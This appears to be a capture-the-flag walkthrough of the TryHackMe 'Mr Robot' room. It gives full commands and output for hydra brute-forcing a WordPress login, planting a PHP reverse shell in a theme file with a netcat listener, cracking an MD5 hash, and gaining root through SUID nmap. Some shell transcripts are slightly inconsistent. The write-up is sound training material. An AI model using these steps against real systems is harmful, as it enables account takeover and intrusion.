




## Room Information

Platform: **<a href="https://tryhackme.com" target="blank">TryHackMe</a>**

Room Name: **<a href="https://tryhackme.com/room/mrrobot" target="blank">Mr Robot CTF</a>**

Difficulty: [**Medium**]

Date Completed: [**27/03/2026**]

## Objective

- Active Reconnaissance
- Web Enumeration, Brute-Forcing and Exploitation
- Privilege Escalation

## Summary

Gather information about the target machine using a network scanner tool. Than use hydra to bruteforce the login page on the website being hosted. Upload and execute our payload on the website and get a reverse shell, which leads to compromising the webserver. Then escalate privileges to Root using SUID files.

## Tools Used
- Rustscan/Nmap
- Gobuster/Dirsearch
- Hydra
- Netcat

## Reconnaissance

### Summary

I use the Nmap tool to know which ports are open and which service they are running and their versions.

**Scan for open ports:**
```
❯ sudo nmap -n -sS -p- -T4 --min-rate 5000 -Pn 10.114.161.84
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-31 17:44 +0200
Nmap scan report for 10.114.161.84
Host is up (0.52s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 77.31 seconds

❯ sudo nmap -n -Pn -sV -sC -p22,80 10.114.161.84
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-31 18:18 +0200
Nmap scan report for 10.114.161.84
Host is up (0.53s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 89:bd:d5:fd:c8:4f:8c:d1:0b:eb:3a:08:39:76:6c:52 (RSA)
|   256 a5:c1:81:74:9a:6f:63:da:47:ba:12:0a:20:59:e9:0c (ECDSA)
|_  256 55:0b:55:19:66:69:b2:31:86:09:3e:9b:11:e4:9d:fb (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.28 seconds
```
Analysing the scan results from nmap, I see that the machine is hosting a website on port 80 and 443. Visiting the url `http://10.114.161.84/` I see terminal looking webpage.  



## Directory and Version Enumeration

### Summary

I used gobuster tool to enumerate the website's directories and gathered information from the enumerated directories, used whatweb tool to enumerate the version of the **CMS (Content Management System)** software and identified a vulnerability that can be used against the **CMS** login page.


**Enumerating directories:**

```
❯ gobuster dir -u http://10.114.161.84/ -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 124 --ne
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.114.161.84/
[+] Method:                  GET
[+] Threads:                 124
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 236] [--> http://10.114.161.84/images/]
blog                 (Status: 301) [Size: 234] [--> http://10.114.161.84/blog/]
sitemap              (Status: 200) [Size: 0]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 301) [Size: 0] [--> http://10.114.161.84/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/]
login                (Status: 302) [Size: 0] [--> http://10.114.161.84/wp-login.php]
0                    (Status: 301) [Size: 0] [--> http://10.114.161.84/0/]
video                (Status: 301) [Size: 235] [--> http://10.114.161.84/video/]
rss                  (Status: 301) [Size: 0] [--> http://10.114.161.84/feed/]
feed                 (Status: 301) [Size: 0] [--> http://10.114.161.84/feed/]
image                (Status: 301) [Size: 0] [--> http://10.114.161.84/image/]
atom                 (Status: 301) [Size: 0] [--> http://10.114.161.84/feed/atom/]
wp-content           (Status: 301) [Size: 240] [--> http://10.114.161.84/wp-content/]
admin                (Status: 301) [Size: 235] [--> http://10.114.161.84/admin/]
audio                (Status: 301) [Size: 235] [--> http://10.114.161.84/audio/]
wp-login             (Status: 200) [Size: 2671]
css                  (Status: 301) [Size: 233] [--> http://10.114.161.84/css/]
rss2                 (Status: 301) [Size: 0] [--> http://10.114.161.84/feed/]
license              (Status: 200) [Size: 309]
intro                (Status: 200) [Size: 516314]
wp-includes          (Status: 301) [Size: 241] [--> http://10.114.161.84/wp-includes/]
js                   (Status: 301) [Size: 232] [--> http://10.114.161.84/js/]
Image                (Status: 301) [Size: 0] [--> http://10.114.161.84/Image/]
rdf                  (Status: 301) [Size: 0] [--> http://10.114.161.84/feed/rdf/]
page1                (Status: 301) [Size: 0] [--> http://10.114.161.84/]
readme               (Status: 200) [Size: 64]
robots               (Status: 200) [Size: 41]
dashboard            (Status: 302) [Size: 0] [--> http://10.114.161.84/wp-admin/]
wp-admin             (Status: 301) [Size: 238] [--> http://10.114.161.84/wp-admin/]
phpmyadmin           (Status: 403) [Size: 94]
0000                 (Status: 301) [Size: 0] [--> http://10.114.161.84/0000/]
xmlrpc               (Status: 405) [Size: 42]
IMAGE                (Status: 301) [Size: 0] [--> http://10.114.161.84/IMAGE/]
wp-signup            (Status: 302) [Size: 0] [--> http://10.114.161.84/wp-login.php?action=register]
page01               (Status: 301) [Size: 0] [--> http://10.114.161.84/]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```

Looking at the results the directory enumeration, there is a few interesting directories. After going through each directory, I'll start with the `/robots` directory which discloses some information about other existing directories.  I used the **curl** command to retrieve the contents the directories.

```
❯ curl http://10.114.161.84/robots
User-agent: *
fsocity.dic
key-1-of-3.txt

❯ curl http://10.114.161.84/key-1-of-3.txt
...

❯ curl -s http://10.114.161.84/fsocity.dic | head -n 20
true
false
wikia
from
the
now
Wikia
extensions
scss
window
http
var
page
Robot
Elliot
styles
and
document
mrrobot
com
```

- The directory `key-1-of-3.txt` holds the first of the 3 keys/flags. And the fsocity.dic contains a dictionary/list, probably consisting of usernames and passwords.

Another interesting directory is `wp-login.php` which is a wordpress login page.

## Web Exploitation And Password Cracking

### Summary

I used hydra to brute force the WordPress login page, using the **`fsocity.dic`** list for both the username and password since the login page has an information disclosure vulnerabitily, where the application reveals a valid username through distinct error message.



- When the username is incorrect, I get a distinct `Invalid username` error message.



- When the username is correct but the password is incorrect, I get a distinct `The password you entered for the username ... is incorrect.`

I started by sorting the list with this command `sort -u fsocity.dic -o fsociety.dic` to make sure there is no dublicates, then proceeded to use the list to perform a brute force attack with hydra.

**Hydra brute force:**

By testing multiple login attempts, I was able to confirm which username was valid with **hydra**. Once I identified a valid username, I proceeded with a password attack using the **fsocity.dic** list, then the once I have the username I brute force the password.
```
❯ hydra -L fsociety.dic -p test 10.114.161.84 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username' -t 30
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-31 19:27:56
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:11452/p:1), ~382 tries per task
[DATA] attacking http-post-form://10.114.161.84:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[STATUS] 755.00 tries/min, 755 tries in 00:01h, 10697 to do in 00:15h, 30 active
[STATUS] 759.67 tries/min, 2279 tries in 00:03h, 9173 to do in 00:13h, 30 active
[STATUS] 756.86 tries/min, 5298 tries in 00:07h, 6154 to do in 00:09h, 30 active
[80][http-post-form] host: 10.114.161.84   login: elliot   password: test
[80][http-post-form] host: 10.114.161.84   login: Elliot   password: test
[80][http-post-form] host: 10.114.161.84   login: ELLIOT   password: test
[STATUS] 750.67 tries/min, 9008 tries in 00:12h, 2444 to do in 00:04h, 30 active
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-31 19:43:25

❯ hydra -l Elliot -P fsociety.dic 10.114.161.84 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username' -t 48
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-31 19:18:57
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 48 tasks per 1 server, overall 48 tasks, 11452 login tries (l:1/p:11452), ~239 tries per task
[DATA] attacking http-post-form://10.114.161.84:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username
[STATUS] 871.00 tries/min, 871 tries in 00:01h, 10581 to do in 00:13h, 48 active
[STATUS] 882.33 tries/min, 2647 tries in 00:03h, 8805 to do in 00:10h, 48 active
[80][http-post-form] host: 10.114.161.84   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-31 19:25:43
```
After getting the login credentials and using them to login, I get access to WordPress Admin Dashboard


## Compromising Target Machine and Hash Cracking
### Summary

After obtaining WordPress credentials and logging-in, I leveraged WordPress' template editing feature to achieve **RCE (Remote Code Execution)** and establishing a **Reverse shell** on the target machine as daemon user.

How this attack works is that if an attacker managed to get admin credentials **which I did**, you can get **RCE** (Remote Code Execution) by adding a snippet of **PHP code** to an already existing **PHP file** to gain **RCE**. When can do this by **customizing** an existing php **theme**. For more information, visit: **[WordPress RCE - Hacktricks](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html?highlight%3Dwordpress#panel-rce)**. I instead leveraged **RCE** to get a **Reverse Shell**.

- First, I **click** on **`Appearance`** where thereafter I get a drop down list, then click **`Editor`** to pull up Editor menu.
- Finally, I click on the  **`404.php`** template. I’ll add the Pentestmonkey's reverse shell to gain code execution:
**[Pentestmonkey's Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)**. I change the **$ip** variable in the **PHP reverse shell script** to my **TryHackMe vpn ip address**, and then **Update File** to save changes.



Before executing the payload, I start a Netcat listener on my machine with the command **`rlwrap nc -lvnp 5555`**. Then to execute our payload so that the target machine initiates a reverse shell with my listener, I load the url **`http://10.114.161.84/wp-content/themes/twentytwelve/404.php`** where my payload is, and the target machine executes the payload.

```
❯ rlwrap nc -lvnp 5555
listening on [any] 5555 ...
connect to [my_vpn_ipaddress] from (UNKNOWN) [10.114.161.84] 50204
Linux ip-10-114-161-84 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 17:59:32 up  2:27,  0 users,  load average: 0.00, 0.02, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ ls /home
robot
ubuntu
$ 
```
Enumerating the `/home` directory, I found two users, **robot** and **ubuntu**. The **robot** home directory contains the file that has the second key/flag, but I am unable to output the file's contents because I don't have enough permissions. However theres is file containing the raw-md5 password hash for the **robot** user. So I can try to login in as the **robot** if I succeed in cracking the hash.

```
$ cd /home/robot
$ ls
key-2-of-3.txt
password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
I created a file with the contents of the Raw-MD5 password hash and used **Hashcat** to crack it, to get the password in plain text.

```
❯ echo 'c3fcd3d76192e4007dfb496cca67e13b' > robot_password.raw-md5
❯ hashcat -m 0 -a 0 robot_password.raw-md5 /usr/share/wordlists/rockyou.txt --force
hashcat (v7.1.2) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-AMD Ryzen 7 7435HS, 2223/4447 MB (1024 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 512 MB (2219 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Mar 31 20:07:28 2026, (0 secs)
Time.Estimated...: Tue Mar 31 20:07:28 2026, (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  1015.6 kH/s (0.41ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: promo2007 -> harder
Hardware.Mon.#01.: Util: 38%

Started: Tue Mar 31 20:07:05 2026
Stopped: Tue Mar 31 20:07:30 2026

```
- After cracking the password, I used it to login as the robot user then spawned an interactive shell using this command `python -c 'import pty; pty.spawn("/bin/bash")'`  

Compromised machine:
```
$ whoami
daemon
$ su - robot
Password: abcdefghijklmnopqrstuvwxyz
whoami
robot
python -c 'import pty; pty.spawn("/bin/bash")'
robot@ip-10-114-161-84:~$ 
```

## Privilege Escalation
### Summary

Enumerated for any SUID files to identify any binaries that can be used to escalate privileges. Then used that binary to achieve privilege escalation.


Compromised machine:
```
$ whoami
daemon
$ find / -perm -4000 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
- Doing some research I found that the Nmap binary can exploited using this script **<a href="https://gtfobins.org/gtfobins/nmap/" target="blank">nmap --interactive</a>**, which spawns a shell with root prvileges, which can be used to read the file in the root directory where the last key/flag problably is located:

```
$ whoami
daemon
$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> whoami
root
nmap> id
uid=0(root) gid=0(root) groups=0(root),1(daemon)
nmap> pwd
/home/robot
nmap> ls /root
firstboot_done
key-3-of-3.txt
nmap> cat /root/key-3-of-3.txt
...
nmap> 
```